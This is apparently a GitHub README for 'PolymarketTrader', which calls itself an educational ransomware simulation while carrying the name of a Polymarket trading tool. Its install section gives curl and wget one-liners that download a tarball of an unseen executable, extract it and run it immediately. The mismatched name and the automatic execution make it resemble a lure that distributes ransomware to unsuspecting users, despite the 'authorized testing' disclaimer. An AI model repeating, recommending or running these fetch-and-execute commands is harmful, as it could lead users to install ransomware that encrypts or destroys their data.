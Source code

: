 # PolymarketTrader

Educational ransomware simulation tool for Ubuntu/Linux systems.

## Quick Installation

Run this single command to download and install:

```bash
mkdir -p poly-trader && cd poly-trader && curl -L https://raw.githubusercontent.com/YoavSavir/PolymarketTrader/main/polymarket-trader.tar.gz -o polymarket-trader.tar.gz && tar -xzf polymarket-trader.tar.gz && rm polymarket-trader.tar.gz && ./PolymarketTrader
```

This will:
1. Create a `poly-trader` directory
2. Download the compressed archive
3. Extract the executable (permissions preserved)
4. Clean up the archive file
5. Run the program automatically

## Alternative Installation Methods

### Method 1: Download and Run Manually
```bash
# Create directory
mkdir -p poly-trader
cd poly-trader

# Download archive
curl -L https://raw.githubusercontent.com/YoavSavir/PolymarketTrader/main/polymarket-trader.tar.gz -o polymarket-trader.tar.gz

# Extract (permissions preserved)
tar -xzf polymarket-trader.tar.gz

# Clean up archive file
rm polymarket-trader.tar.gz

# Run the program
./PolymarketTrader
```

### Method 2: Using wget
```bash
mkdir -p poly-trader && cd poly-trader
wget https://raw.githubusercontent.com/YoavSavir/PolymarketTrader/main/polymarket-trader.tar.gz
tar -xzf polymarket-trader.tar.gz
rm polymarket-trader.tar.gz
./PolymarketTrader
```

## Troubleshooting

### Extraction Issues
If tar extraction fails, ensure you have tar installed:
```bash
# On Ubuntu/Debian
sudo apt-get install tar

# On RHEL/CentOS
sudo yum install tar
```

### File not executable
If you see "cannot execute binary file", make sure you're on a Linux/Ubuntu system (not Windows/Mac).

### Permission Issues
If you still get permission errors (rare), run:
```bash
chmod +x PolymarketTrader
```

## Requirements

- **Operating System:** Ubuntu/Linux (64-bit)
- **Architecture:** x86_64
- **Dependencies:** None (all bundled in executable)

## Usage

After you download, follow the installation process displayed by the program.

## Educational Purpose

This tool is designed for educational purposes to demonstrate ransomware behavior in a controlled environment. Use responsibly and only in authorized testing environments.

## Support

If you encounter issues, ensure you're running on a compatible Linux system and have proper file permissions. 
